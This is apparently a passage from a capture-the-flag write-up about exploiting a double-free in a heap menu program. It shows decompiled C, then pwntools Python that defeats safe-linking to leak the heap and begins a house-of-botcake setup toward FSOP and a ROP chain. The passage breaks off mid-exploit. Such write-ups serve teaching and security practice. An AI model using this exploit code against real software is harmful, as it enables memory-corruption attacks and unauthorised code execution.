 ```c
    if ( v4 == 1 )
    {
      v7 = inidx();
      printf("letter size: ");
      __isoc99_scanf("%lu%*c", &size);
      v3 = malloc(size);
      *((_QWORD *)&mem + v7) = v3;
      printf("content: ");
      fgets(*((char **)&mem + v7), size, stdin);
    }
    else
    {
      if ( v4 != 2 )
        break;
      v7 = inidx();
      free(*((void **)&mem + v7));
    }
  }
  puts("Invalid choice!");
  _exit(0);
}
```

The program allows to create a chunk of any size, filling it with user-supplied input with fgets. We can print its content or free it. The bug lies in the free handler that doesn't check if a chunk has already been free'd.

# Exploitation

Before bypassing the seccomp we need to get code execution, to do so I will use the very classic exploitation flow: `FSOP stdout to leak environ` => `ROPchain`. I could have used an [angry FSOP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to directly get code execution by hijjacking the vtable used by the wide operations in stdout, given actually it is not checked against a specific address range as it is the case for the `_vtable`. To get code execution, we need to get the heap and libc base addresses.

## Heap and libc leak

To get a heap leak we can simply do defeat safe-linking:
```py
# leak

free(0)
view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12) - 0x2000)
pwn.log.info(f"heap @ {hex(heap)}")
```

To get an arbitrary read / write I used the house of botcake technique. I already talked about it more deeply [there](https://nasm.re/posts/catastrophe/#house-of-botcake). During this house I put a chunk in the unsortedbin, leaking the libc:
```py
add(0, 0x100, b"YY")

add(7, 0x100, b"YY") # prev
add(8, 0x100, b"YY") # a

# fill tcache
for i in range(7):
    free(i)

for _ in range(20):
    add(9, 0x10, b"/bin/sh\0") # barrier
```